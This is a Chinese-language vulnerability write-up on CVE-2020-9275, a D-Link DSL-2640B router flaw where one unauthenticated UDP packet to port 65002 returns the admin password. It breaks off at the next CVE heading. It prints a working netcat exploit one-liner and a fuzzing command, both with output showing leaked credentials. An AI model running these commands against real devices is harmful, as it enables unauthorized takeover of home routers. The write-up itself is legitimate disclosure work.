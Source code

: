 

## 0x01 CVE-2020-9275：远程凭据泄露

利用该[漏洞](https://raelize.com/advisories/CVE-2020-9275_D-Link-DSL-2640B_Remote-Credentials-Exfiltration_v1.0.txt)，攻击者可以向设备的`65002`端口发送特定的UDP报文，从而获取设备管理密码。

如果攻击者已连入Wi-Fi或者本地LAN，或者可以通过其他方式访问到内部设备接口，那么就能通过一个UDP请求，拿到设备密码。

该设备的大多数功能（包括管理面板以及Web服务器）都由`cfm`这个进程实现，该进程会在设备启动时运行。`cfm`进程会在`UDP` `65002`端口上监听，可能是提供设备配置功能的一个专用应用。相关通信协议如下图所示，函数名`pcApplication`直接来自于程序中的符号。

[![](https://p3.ssl.qhimg.com/t01b41c9b250d402e00.png)](https://p3.ssl.qhimg.com/t01b41c9b250d402e00.png)

通信过程采用D-Link的专有协议，该协议并没有公开文档。经过逆向分析`cfm`程序后，我们能得到协议包的结构，如下所示：

[![](https://p3.ssl.qhimg.com/t01a64b3a07b52ebcc1.png)](https://p3.ssl.qhimg.com/t01a64b3a07b52ebcc1.png)

该协议可以在2字节的`cmd`字段中指定命令代码，从而支持多个命令。通信流量采用明文形式，不需要经过身份认证。对于某些命令，代码只会检查报文中的MAC地址是否匹配目标设备的MAC地址。

`\x00\x01`命令可以从设备中获取系统信息，包括设备管理密码，设备以明文返回响应包。比如：

```
python -c 'print("\x00\x01"* 5)' | nc -u 192.168.1.1 65002
####MAC_ADDRESS####&lt;boardID=D-4P-W&gt;&lt;sysVersion=EU_3-10-02-3B00.A2pB022g2.d20h&gt;
&lt;sysModel=DSL-2640B&gt;&lt;local_username=admin&gt;&lt;local_password=password&gt;
&lt;local_ipaddress=192.168.1.1&gt;
```

设备并没有检查`\x00\x01`命令中的MAC地址，并且会忽略后面的附加字节，因此我们很容易就能探测目标设备是否存在该漏洞。

我们其实使用了非常直接的fuzz方法发现了这个漏洞。我们首先尝试将`/dev/urandom`管道的数据送入UDP `65002`端口，但并不认为这种方法能找到漏洞，因为我们没有监控流量、没有选择payload，也没有针对性进行调试。令人惊讶的是，经过几分钟后，设备就返回了管理员密码。

```
time cat /dev/urandom | nc -u 192.168.1.1 65002
&amp;ZLM���&lt;boardID=D-4P-W&gt;&lt;sysVersion=EU_3-10-02-3B00.A2pB022g2.d20h&gt;
&lt;sysModel=DSL-2640B&gt;&lt;local_username=admin&gt;&lt;local_password=a&gt;
&lt;local_ipaddress=192.168.1.1&gt;^C

real    2m53.240s
user    0m0.599s
sys    0m21.439s
```

由于目标设备的逻辑非常简单，UDP报文中只要`\x00\x01`处于合适的位置，设备就会返回管理员密码。因此即使我们采用的是最粗鲁的方法，也能在几分钟内拿到管理密码。

经过初步测试，我们发现该漏洞能在LAN网络中使用。然而设备服务似乎会在所有接口上监听，如下所示：

[![](https://p5.ssl.qhimg.com/t012c7c2b32bf309271.png)](https://p5.ssl.qhimg.com/t012c7c2b32bf309271.png)

不幸的是，由于我们缺少适当的DSL连接，因此没有在WAN端验证该漏洞。根据我们目前掌握的信息，我们不排除该漏洞在WAN端被利用的可能性。如果大家可以提供更多信息，欢迎与我们交流。



## 0x02 CVE-2020-9279：硬编码特权账户
